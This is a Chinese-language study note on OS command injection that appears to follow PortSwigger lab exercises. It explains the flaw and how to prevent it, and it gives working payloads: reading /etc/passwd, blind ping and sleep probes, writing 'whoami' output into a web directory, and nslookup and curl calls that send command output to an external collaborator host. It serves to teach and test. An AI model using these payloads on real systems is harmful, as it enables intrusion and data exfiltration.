








## OS command injection

OS command injection（操作系统命令注入）



操作系统命令注入也称为 shell 注入。它允许攻击者在运行应用程序的服务器上执行作系统 （OS） 命令，并且通常会完全破坏应用程序及其数据。

通常，攻击者可以利用作系统命令注入漏洞来破坏托管基础设施的其他部分，并利用信任关系将攻击转向组织内的其他系统。

## Injecting OS commands

Injecting OS commands（注入系统命令）

在此示例中，购物应用程序允许用户查看特定商店中是否有商品库存。此信息可通过 URL 访问：

```URL
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

该功能是通过调用 shell 命令来实现的，其中 product 和 store ID 作为参数

```sh
stockreport.pl 381 29
```

攻击者可以提交以下输入来执行任意命令：

```
& echo aiwefwlguh &
```

`&` 字符是一个 shell 命令分隔符。在此示例中，它会导致一个接一个地执行三个单独的命令

返回给用户的输出是：

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

## 如何防止 OS 命令注入攻击

1. 防止 OS 命令注入漏洞的最有效方法是永远不要从应用程序层代码中调用 OS 命令

2. 如果必须使用用户提供的输入调用 OS 命令，则必须执行强输入验证，有效验证的一些示例包括：

   - 根据允许值的白名单进行验证。

   - 验证输入是否为数字。

   - 验证输入是否仅包含字母数字字符，不包含其他语法或空格。

## labs

### 命令注入（简单情况）

`&`，`|`符号都可以

```
a & b   //先执行a再执行b，无论a是否执行成功(按位与)
a && b  //先执行a再执行b，只有a执行成功才会执行b(逻辑与)
a || b  //先执行a再执行b，只有a执行失败才会执行b(逻辑或)
a | b   //将a的执行结果传递给b(管道符)
```

`&`符号需要URL编码一下

```http
productId=1&storeId=1%26cat+/etc/passwd
```



### 无回显命令注入

在`feedback`功能中有命令注入（盲注）：用户输入会被执行，但没有返回

假设一个网站允许用户提交关于该网站的反馈。用户输入他们的电子邮件地址和反馈信息。

然后，服务器端应用程序向站点管理员生成包含反馈的电子邮件。要 做到这一点，它调用邮件程序提交的细节：

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

```
email=x||ping+-c+10+127.0.0.1||
延迟10秒
email=1|sleep+10s|
```



### 输出重定向 可写目录

`/var/www/images/`目录可写，图片显示存在目录遍历漏洞

```
email=||whoami>/var/www/images/whoami.jpg||
```





### 带外（out-of-band）

找不到可写目录，但是功能点确实有命令注入漏洞

使用DNS协议，nslookup

```
email=||nslookup+`whoami`.dbs45tazxnqrwfg6zq24jatlrcx3lv9k.oastify.com||
```



利用HTTP协议，`curl`

```
email=||curl+`whoami`.dbs45tazxnqrwfg6zq24jatlrcx3lv9k.oastify.com||
```



### 带外（out-of-band）数据

和上面的一样
```
email=||nslookup+`whoami`.ffy69ve11put0hk83s66ncxnve15pydn.oastify.com||
||nslookup+$(whoami).ffy69ve11put0hk83s66ncxnve15pydn.oastify.com|
```



## 注入 OS 命令的方法

许多字符用作命令分隔符，允许将命令链接在一起。

以下命令分隔符适用于基于 Windows 和 Unix 的系统：

```
&
&&
|
||
```

以下命令分隔符仅适用于基于 Unix 的系统：

-  `;`
- 换行符 （`0x0a` 或 `\n`）

在基于 Unix 的系统上，还可以使用反引号或美元字符在原始命令中执行注入的命令：

```
`injected command`
$(injected command)
```

例子：

```
echo `whoami`
echo $(whoami)
```

